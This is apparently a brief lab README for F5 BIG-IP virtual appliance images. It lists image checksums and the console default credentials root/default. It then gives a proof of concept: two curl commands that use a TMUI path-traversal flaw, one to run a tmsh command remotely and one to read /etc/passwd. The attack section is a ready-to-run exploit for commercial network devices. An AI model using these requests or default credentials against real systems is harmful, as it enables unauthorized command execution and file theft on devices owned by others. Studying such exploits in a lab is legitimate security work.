 ## BIGIP vmware ova

![](./default_pass.png)

```
╭─root@kali /var/www/html/big_ip 
╰─# md5sum *
ce16d114fc4d04f087e6ebc4cfac89a9  BIGIP-14.1.2.6-0.0.2.ALL-vmware.ova
b57614da7bdacdd76c14546bd910add5  BIGIP-15.1.0-0.0.31.ALL-vmware.ova

#### Console Default Password

https://www.question-defense.com/2011/03/28/f5-big-ip-ltm-ve-default-login-big-ip-local-traffic-manager-virtual-edition-console-login

`root/default` 

```
## poc
https://twitter.com/x4ce/status/1279790599793545216

```
RCE: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'

Read File: 
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
```
